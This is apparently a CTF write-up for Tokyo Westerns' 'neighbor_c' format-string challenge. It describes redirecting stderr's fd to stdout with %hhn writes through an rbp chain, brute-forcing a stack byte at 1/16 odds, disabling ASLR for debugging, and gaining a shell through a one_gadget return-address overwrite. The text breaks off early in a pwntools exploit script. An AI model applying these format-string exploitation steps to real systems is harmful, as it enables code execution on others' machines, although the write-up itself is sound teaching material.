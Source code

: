 However, the stderr is not redirected to the socket, so the leak is currently not available

My approach is to rewrite the `fd` field of `stderr`, it is initially 2, and if we can rewrite it to 1, it will essentially becomes a stdout.

There are two value in the stack pointing to the `stderr`, `6$` and `8$`, in which `6$` can be editted since it is not used anymore. Firstly we need to rewrite a saved `rbp` value using `rbp` chain to let it point to the pointer to `stderr`, and edit the pointer to let it point to its fd field, then rewrite that to `1`. To be specific, write `%9$hhn` to change `11$` to pointer to pointer to `stderr`, then write `%11$hhn` to let it points to fd, then `%6$hhn` to change the `fd` to `stdout`

However, for the saved rbp values, which are pointers of stack, the value of LSB is uncertain unlike other pages, but the last 4 bits are always zero to ensure the alignment. Thus, the probability of success is `1/16`, which is acceptable.

```
Please tell me about yourself. I must talk about you to our mayor.
%9$p
0x7ffd5d257ca0
Please tell me about yourself. I must talk about you to our mayor.
%9$p
0x7ffeaa4289e0
Please tell me about yourself. I must talk about you to our mayor.
%9$p
0x7ffe77564440
```

We can disable ALSR to make our debugging more convinient: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

After changing the bytes to stdout, we can leak everything. The way to getshell is then not hard, attack `_FILE_IO`, or return address of `fprintf`, whatever u what. What I did is rewrite the return address to `one_gadget`, but before that we need to do some preparation(write `NULL` for requirement of `one_gadget`, write pointers to saved return address of `fprintf` on stack) first.

the exp:

```python
from pwn import *

g_local=True
context.log_level='debug'
UNSORTED_OFF = 0x3c4b78
IO_STR_FINISH = 0x3C37B0
GUESSED_STDERR_POS = 0x28
GUESSED_NEEDNULL_POS = (0x58 - 0x28) + GUESSED_STDERR_POS
GUESSED_FPRINTF_RET_POS = (0x18 - 0x28) + GUESSED_STDERR_POS
GUESSED_BUF_POS = (0x68 - 0x28) + GUESSED_STDERR_POS
#14 15 16 for format $

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./neighbor_c')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	gdb.attach(sh)
else:
	sh = remote("neighbor.chal.ctf.westerns.tokyo", 37565)
	e = ELF("./libc.so.6")
	ONE_GADGET_OFF = 0x4557a

def slp():
	if g_local:
		sleep(0.1)
	else:
		sleep(1.1)

def hhn(pos, val):
	assert val < 0x100
```